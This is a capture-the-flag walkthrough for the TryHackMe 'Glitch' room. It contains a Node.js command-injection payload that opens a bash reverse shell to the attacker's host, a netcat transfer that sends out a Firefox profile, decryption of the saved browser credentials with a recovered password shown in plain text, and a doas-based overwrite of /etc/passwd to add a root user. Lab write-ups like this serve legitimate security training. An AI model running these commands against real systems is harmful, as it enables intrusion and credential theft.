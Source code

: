 # GLITCH

**Room Link:** [https://tryhackme.com/room/glitch](https://tryhackme.com/room/glitch)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>







### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (342).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (326).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (328).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (329).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

Looking into api directory we find a items page

**Kali**

```
gobuster dir -u http://$VICTIM/api -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (341).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (330).png" alt=""><figcaption></figcaption></figure>



Change the request from GET to POST and it gives an interesting message

<figure><img src="../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>



Running the below shows it is vulnerable

<figure><img src="../../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Kali**

```
nc -lvnp
```

**Burp**

```
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/$KALI/1337+0>%261"') HTTP/1.1
Host: 10.10.22.153
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=value
Upgrade-Insecure-Requests: 1
```



<figure><img src="../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

## Lateral Movement

**Victim**

```
tar -cvf backup.tar.gz .firefox/
```

### Netcat

**Kali(receiving)**

```
nc -l -p 1234 > backup.tar.gz
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < backup.tar.gz
```



**Kali**

```
tar xvf backup.tar.gz 
git clone https://github.com/unode/firefox_decrypt.git
python3.9  firefox_decrypt/firefox_decrypt.py .firefox/
```

<figure><img src="../../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
su v0id
Password: love_the_void
```

<figure><img src="../../.gitbook/assets/image (337).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
find / -perm -u=s -type f 2> /dev/null
```

<figure><img src="../../.gitbook/assets/image (338).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
/usr/local/bin/doas -u root cat /root/root.txt
```

<figure><img src="../../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

I used doas to read the passwd file, make a backup called passwd.old just in case it broke and passwd.new and added a new user

**Victim**

```
/usr/local/bin/doas -u root cat /etc/passwd
vi /tmp/passwd.new
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash

/usr/local/bin/doas -u root cp /tmp/passwd.new /etc/passwd
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (340).png" alt=""><figcaption></figcaption></figure>

